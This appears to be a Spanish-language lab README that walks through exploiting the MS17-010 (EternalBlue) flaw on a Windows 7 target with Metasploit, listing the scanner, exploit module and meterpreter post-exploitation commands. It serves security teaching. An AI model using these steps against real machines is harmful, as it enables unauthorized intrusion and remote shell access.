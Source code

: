 Explotación de vulnerabilidad utilizando metasploit
===============
Este laboratorio es para fines educativos y su contenido no debe ser utilizado para fines ilícitos  

**Objetivos**
* Experimentar la explotación de una vulnerabilidad 
* Interactuar con la consola de comandos de comandos de metasploit. 
* Interactuar con la consola de comandos de meterpreter.  

**Requisitos**
* Máquina objetivo:Windows 7 , 64 bits, con el Firewall inactivo  
* Equipo Auditor: Kali Linux 

**Utilizar un scanner para detercar si el equipo es vulnerable a  MS17-010 **
* Desde Kali LinuxInicie una sesión de terminal y escriba los siguientes comandos
* msfconsole
* Search ms17_10
* use auxiliary/scanner/smb/smb_ms17_010 
* set RHOSTS “Dirección IP del host windows 7 64bits”,
* run 

**Exploiting
* use exploit/windows/smb/ms17_010_eternalblue
* show options 
* set RHOST < Rhost-id > 
* exploit 
 
** Post Exploitation 
* Sysinfo
* Getuid
* Shell

Enlace para mayor información
----- https://www.metasploit.com/
